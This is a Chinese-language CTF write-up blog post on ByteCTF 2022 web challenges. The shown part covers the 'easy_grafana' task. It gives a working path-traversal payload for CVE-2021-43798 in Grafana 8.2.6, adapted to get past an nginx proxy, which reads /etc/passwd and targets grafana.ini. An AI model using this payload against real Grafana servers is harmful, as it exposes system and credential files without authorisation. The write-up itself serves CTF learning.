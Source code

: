 ```yaml
---
title: "2022 ByteCTF Web 部分 Writeup"
date: 2022-09-29T20:17:22+08:00
lastmod: 2022-09-29T20:17:22+08:00
draft: false
author: "X1r0z"

tags: ['ctf','nodejs']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


军训没啥时间, 只能赛后自己试着做了一下...

感觉挺难的, 就做出来两道题

看了官方 wp 中其他几道题的思路感觉收获很大



## easy_grafana

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209262037154.png)

Grafana v8.2.6, 存在 CVE-2021-43798 任意文件读取

[https://github.com/j-jasson/CVE-2021-43798-grafana_fileread](https://github.com/j-jasson/CVE-2021-43798-grafana_fileread)

直接用 payload 不行, 好像是 nginx 反向代理的问题?

改成如下的形式就能够读取文件了

```
/public/plugins/annolist/#/../..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209262039369.png)

配置文件路径

```
/etc/grafana/grafana.ini
```

里面的 `admin_password` 是注释掉的, 然后数据库的信息也没有
